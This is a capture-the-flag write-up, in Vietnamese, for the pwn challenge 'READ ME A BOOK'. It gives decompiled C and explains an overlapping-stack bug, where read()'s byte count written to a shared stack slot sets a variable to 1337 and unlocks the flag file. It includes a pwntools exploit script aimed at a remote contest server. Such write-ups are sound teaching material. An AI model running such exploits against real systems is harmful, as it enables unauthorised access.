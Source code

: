 # READ ME A BOOK

## Source

<details> <summary> source </summary>

```c
void __fastcall catflag(int a1)
{
  FILE *stream; // [rsp+18h] [rbp-18h]
  __int64 size; // [rsp+20h] [rbp-10h]
  void *ptr; // [rsp+28h] [rbp-8h]

  if ( a1 == 1337 )
  {
    stream = fopen("books/flag.txt", "rb");
  }
  else
  {
    if ( a1 > 1337 )
      goto LABEL_16;
    if ( a1 == 4 )
    {
      stream = fopen("books/not_a_flag.txt", "rb");
    }
    else
    {
      if ( a1 > 4 )
        goto LABEL_16;
      switch ( a1 )
      {
        case 3:
          stream = fopen("books/youtiaos_recipe.txt", "rb");
          break;
        case 1:
          stream = fopen("books/bee_movie.txt", "rb");
          break;
        case 2:
          stream = fopen("books/star_wars_opening.txt", "rb");
          break;
        default:
          goto LABEL_16;
      }
    }
  }
  if ( !stream )
  {
LABEL_16:
    puts("We don't have that book!");
    return;
  }
  fseek(stream, 0LL, 2);
  size = ftell(stream);
  ptr = calloc(1uLL, size + 1);
  fseek(stream, 0LL, 0);
  fread(ptr, size, 1uLL, stream);
  puts(" ---------------------------------");
  puts("The story goes...");
  puts((const char *)ptr);
  puts(" ---------------------------------");
  fclose(stream);
  free(ptr);
}

__int64 option1()
{
  int v1[11]; // [rsp+Ch] [rbp-34h] BYREF
  unsigned __int64 v2; // [rsp+38h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  puts("\nWhich book would you like to read?");
  puts("1. Bee Movie Script");
  puts("2. Star Wars Opening");
  puts("3. Recipe to make the best Youtiaos");
  puts("4. The Secret to Life");
  printf("> ");
  if ( (unsigned int)__isoc99_scanf("%d", v1) && v1[0] == 1337 )
  {
    puts("\nLibrarian: Hey! This book is not for your eyes!");
    handler((int)"\nLibrarian: Hey! This book is not for your eyes!");
  }
  delete();
  return (unsigned int)v1[0];
}

unsigned __int64 option2()
{
  void *buf; // [rsp+0h] [rbp-40h]
  unsigned __int64 v2; // [rsp+38h] [rbp-8h]

  v2 = __readfsqword(0x28u);
  buf = malloc(0x1000uLL);
  printf("Leave us your feedback: ");
  read(0, buf, 0xFFFuLL);
  puts("Thanks! Our librarians will have a look at your feedback.");
  dword_402C = 1;
  free(buf);
  return v2 - __readfsqword(0x28u);
}

void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  int v3; // [rsp+0h] [rbp-10h] BYREF
  int v4; // [rsp+4h] [rbp-Ch]
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  sub_159D(a1, a2, a3);
  while ( 1 )
  {
    while ( 1 )
    {
      menu();
      __isoc99_scanf("%d", &v3);
      delete();
      if ( v3 != 1 )
        break;
      v4 = option1();
      catflag(v4);
    }
    if ( v3 != 2 )
    {
      puts("Goodbye!");
      exit(0);
    }
    if ( dword_402C )
      puts("You have already given your feedback.");
    else
      option2();
  }
}
```

</details>

## Ý tưởng

- Bài này lỗi chồng chéo stack
- Lỗi ở đây khi debug dừng chỗ `read(0, buf, 0xFFFuLL);` của option2 thì ta thấy giá trị trả về của read() là số byte read() đọc được vào rax() (giả sử trường hợp này mình nhập vào 0x538 byte "a" + 1 endline)
  ![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/4018952d-f7b2-400c-9382-a3025879e467)
- và câu lệnh asm tiếp theo là ` mov    DWORD PTR [rbp-0x34], eax` đưa số byte này vào `$rbp-0x34` mà ở option1 ta có `  int v1[11]; // [rsp+Ch] [rbp-34h] BYREF` cũng ở `rbp-0x34` đó là lỗi chồng chéo stack.

- Khi trở về hàm scanf trong option 1 ta thấy rsi của `v1[0]` đã là 1337, bây giờ chúng ta chỉ cần nhập chữ thì hàm scanf() sẽ không đọc được và không thay đổi 1337.

## Khai thác

- Đầu tiên ta chọn option 2 và gửi vào 0x539 byte, sau đó chọn option 1 và gửi vào chữ.

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('chall', checksec=False)

context.binary = exe

def GDB():
        if not args.REMOTE:
                gdb.attach(p, gdbscript='''


                c
                ''')
                input()

info = lambda msg: log.info(msg)
sla = lambda msg, data: p.sendlineafter(msg, data)
sa = lambda msg, data: p.sendafter(msg, data)
sl = lambda data: p.sendline(data)
s = lambda data: p.send(data)

if args.REMOTE:
        p = remote('34.124.157.94', 12344)
else:
        p = process(exe.path)

GDB()
sla(b"Option: ", b"2")
sa(b": ", b"a" * 0x539)
sla(b"Option: ", b"1")
sla(b"> ", b"a")

p.interactive()


```

## Kết quả

![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/515af9c1-8542-45db-a6c5-a17ce5430d5a)
